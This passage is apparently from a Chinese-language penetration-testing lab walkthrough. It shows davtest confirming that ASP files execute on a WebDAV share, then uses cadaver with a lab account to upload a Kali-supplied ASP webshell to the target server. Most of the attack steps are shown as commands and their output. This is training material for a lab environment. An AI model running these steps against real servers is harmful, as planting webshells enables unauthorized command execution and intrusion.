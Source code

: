 有三个测试文件执行了，因此，我们可以上传asp的webshell。

```
Checking for test file execution

EXEC	html	SUCCEED:	http://10.0.24.74/webdav/DavTestDir_YZdrheF_F_5VrQ/davtest_YZdrheF_F_5VrQ.html
EXEC	asp	SUCCEED:	http://10.0.24.74/webdav/DavTestDir_YZdrheF_F_5VrQ/davtest_YZdrheF_F_5VrQ.asp
EXEC	txt	SUCCEED:	http://10.0.24.74/webdav/DavTestDir_YZdrheF_F_5VrQ/davtest_YZdrheF_F_5VrQ.txt
```

[Cadaver](https://www.kali.org/tools/cadaver/)

cadaver supports file upload, download, on-screen display, in-place editing, namespace operations (move/copy), collection creation and deletion, property manipulation, and resource locking.

Its operation is similar to the standard BSD ftp(1) client and the Samba Project’s smbclient(1).

This package includes GnuTLS (HTTPS) support.

WebDAV (Web-based Distributed Authoring and Versioning) is a set of extensions to the HTTP protocol which allow users to collaboratively edit and manage files on remote web servers.

我们可以上传一个 webshell，以便在目标系统上获得某种形式的命令执行。 为此，我们在此处打开一个新选项卡。 Kali Linux prepackage webshell，它们可以在以下位置访问：

因为实验室重启了，所以目标IP变了：

```
Target IP Address : 10.0.28.114
```

```
root@attackdefense:~# ls /usr/share/webshells/
asp  aspx  cfm	jsp  laudanum  perl  php  seclists
root@attackdefense:~# ls /usr/share/webshells/asp
cmd-asp-5.1.asp  cmdasp.asp  webshell.asp
```

上传aps的webshell:

```
root@attackdefense:~# cadaver http://10.0.28.114/webdav/
Authentication required for 10.0.28.114 on server `10.0.28.114':
Username: bob
Password: 
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
        AttackDefense.txt                     13  Jan  2  2021
        web.config                           168  Jan  2  2021
dav:/webdav/> help
Available commands: 
 ls         cd         pwd        put        get        mget       mput       
 edit       less       mkcol      cat        delete     rmcol      copy       
 move       lock       unlock     discover   steal      showlocks  version    
 checkin    checkout   uncheckout history    label      propnames  chexec     
 propget    propdel    propset    search     set        open       close      
 echo       quit       unset      lcd        lls        lpwd       logout     
 help       describe   about      
Aliases: rm=delete, mkdir=mkcol, mv=move, cp=copy, more=less, quit=exit=bye
dav:/webdav/> put /usr/share/webshells/asp/webshell.asp 
Uploading /usr/share/webshells/asp/webshell.asp to `/webdav/webshell.asp':
Progress: [=============================>] 100.0% of 1362 bytes succeeded.
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
        AttackDefense.txt                     13  Jan  2  2021
        web.config                           168  Jan  2  2021
        webshell.asp                        1362  Sep  4 09:27
```
